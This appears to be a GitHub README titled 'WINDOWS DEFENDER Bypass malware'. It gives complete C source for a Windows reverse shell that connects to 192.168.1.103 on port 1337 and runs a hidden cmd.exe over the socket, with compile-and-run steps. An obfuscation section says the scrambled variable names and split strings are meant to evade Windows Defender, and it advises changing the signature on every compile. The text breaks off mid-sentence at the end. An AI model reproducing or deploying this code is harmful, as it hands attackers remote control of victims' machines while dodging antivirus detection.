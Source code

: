 WINDOWS DEFENDER Bypass malware
This program demonstrates how to establish a remote connection to a server using the WinSock2 library and execute a command prompt (cmd.exe) on a Windows system. The code dynamically loads functions from ws2_32.dll and uses these functions to perform network operations.

Prerequisites
A Windows environment.
Visual Studio or any other C/C++ compiler for Windows.
ws2_32.dll should be present on the system (it's a standard DLL provided by Windows).
Detailed Description
Code Breakdown
Include Headers and Library

c
Copy code
#include <stdio.h>
#include <windows.h>
#include <WinSock2.h>
#include <ws2tcpip.h>
#include <stdlib.h>

#pragma comment(lib, "user32.lib")
These headers provide the necessary functions and definitions for Windows API, network operations, and standard I/O operations.

Typedef Function Pointers

c
Copy code
typedef int (WSAAPI *lpfnWSAStartup)(WORD wVersionRequired, LPWSADATA lpWSAData);
typedef int (WSAAPI *lpfnWSACleanup)(void);
typedef SOCKET (WSAAPI *lpfnWSASocket)(int af, int type, int protocol, LPWSAPROTOCOL_INFO lpProtocolInfo, GROUP g, DWORD dwFlags);
typedef int (WSAAPI *lpfnWSAConnect)(SOCKET s, const struct sockaddr *name, int namelen, LPWSABUF lpCallerData, LPWSABUF lpCalleeData, LPQOS lpSQOS, LPQOS lpGQOS);
typedef int (WSAAPI *lpfnRecv)(SOCKET s, char *buf, int len, int flags);
These typedefs declare pointers to the functions we will dynamically load from ws2_32.dll.

Main Function

c
Copy code
int main(int argc, char* argv[]) {
    FreeConsole();  // Hide the console window

    HMODULE hwww = LoadLibrary("ws2_32.dll");  // Load ws2_32.dll dynamically
    if (hwww == NULL) {
        printf("Could not load ws2_32.dll\n");
        return 1;
    }
Get Function Addresses

c
Copy code
    lpfnWSAStartup uywueftuwefwuuw = (lpfnWSAStartup)GetProcAddress(hwww, "WSAStartup");
    lpfnWSACleanup ploskdmcnc = (lpfnWSACleanup)GetProcAddress(hwww, "WSACleanup");
    lpfnWSASocket yncsj = (lpfnWSASocket)GetProcAddress(hwww, "WSASocketW");
    lpfnWSAConnect llllosksuua = (lpfnWSAConnect)GetProcAddress(hwww, "WSAConnect");
    lpfnRecv ujvjcmvcmvcmmcjyhn = (lpfnRecv)GetProcAddress(hwww, "recv");

    if (!uywueftuwefwuuw || !ploskdmcnc || !yncsj || !llllosksuua || !ujvjcmvcmvcmmcjyhn) {
        printf("Could not get function addresses\n");
        FreeLibrary(hwww);
        return 1;
    }
Initialize WinSock and Create a Socket

c
Copy code
    WSADATA ietuwecwtuecwucuwaa;
    uywueftuwefwuuw(MAKEWORD(2, 2), &ietuwecwtuecwucuwaa);  // Initialize WinSock
    SOCKET qqweretrwqcqqmmn = yncsj(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);  // Create a TCP socket
Configure Server Address

c
Copy code
    struct sockaddr_in Inksjshsfww;
    Inksjshsfww.sin_port = htons(1337);  // Port number
    Inksjshsfww.sin_family = AF_INET;
    Inksjshsfww.sin_addr.s_addr = inet_addr("192.168.1.103");  // Server IP address
Connect to Server

c
Copy code
    int lthnbvmdl = llllosksuua(qqweretrwqcqqmmn, (SOCKADDR*)&Inksjshsfww, sizeof(Inksjshsfww), NULL, NULL, NULL, NULL);
    if (lthnbvmdl == SOCKET_ERROR) {
        printf("Connection Error to the server: %lu\n", WSAGetLastError());
        ploskdmcnc();
        FreeLibrary(hwww);
        return 1;
    }
Receive Data and Setup STARTUPINFO

c
Copy code
    char awqszxa[4096];
    ujvjcmvcmvcmmcjyhn(qqweretrwqcqqmmn, awqszxa, sizeof(awqszxa), 0);  // Receive data

    STARTUPINFO siosusg;
    for (int i = 0; i < sizeof(siosusg); i++) {
        ((char*)&siosusg)[i] ^= ((char*)&siosusg)[i];
    } 
    siosusg.cb = sizeof(siosusg);
    siosusg.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
    siosusg.hStdInput = siosusg.hStdOutput = siosusg.hStdError = (HANDLE)qqweretrwqcqqmmn;
Construct Command String and Create Process

c
Copy code
    char b[3] = "cm";
    char c[4] = "d.e";
    char d[2] = "x";
    char e[2] = "e";
    char sdj[10];
    sdj[0] = '\0'; 

    strcat(sdj, b); 
    strcat(sdj, c); 
    strcat(sdj, d);
    strcat(sdj, e);

    PROCESS_INFORMATION iloksj;
    BOOL sbdsksck = CreateProcess(NULL, sdj, NULL, NULL, TRUE, CREATE_NO_WINDOW | IDLE_PRIORITY_CLASS, NULL, NULL, &siosusg, &iloksj);
    if (!sbdsksck){
        printf("Cannot create a thread\n");
        printf("Error is:%lu\n", GetLastError());
    }
    WaitForSingleObject(iloksj.hProcess, INFINITE);

    CloseHandle(iloksj.hThread);
    CloseHandle(iloksj.hProcess);
Cleanup and Exit

c
Copy code
   memset(awqszxa, 0, sizeof(awqszxa));
   ploskdmcnc();
   FreeLibrary(hwww);
   return 0;
}

vbnet
Copy code

## How to Compile and Run

1. **Compile**
Use a C/C++ compiler like Visual Studio. Create a new project and add the above code. Link against `user32.lib` and `ws2_32.lib`.

2. **Run**
Execute the compiled binary. Ensure that the server at `192.168.1.103` on port `1337` is ready to accept connections.

## Important Notes

- **Security Risks**: This code creates a remote command shell, which can be a severe security risk. Use it only in controlled environments for educational purposes.
- **Error Handling**: The program has basic error handling. In a production environment, improve error checks and handling mechanisms.
- **Dependencies**: Ensure that the target environment has the necessary dependencies and configurations.

## Obfuscation Note

The variable names and certain parts of the code are obfuscated to evade static analysis detection by Windows Defender. To further evade detection, consider changing the file signature or other identifiable parts of the code each time you compile it.

## Summary

This program demonstrates how to dynamically load network-related functions from `ws2_32.dll`, crea
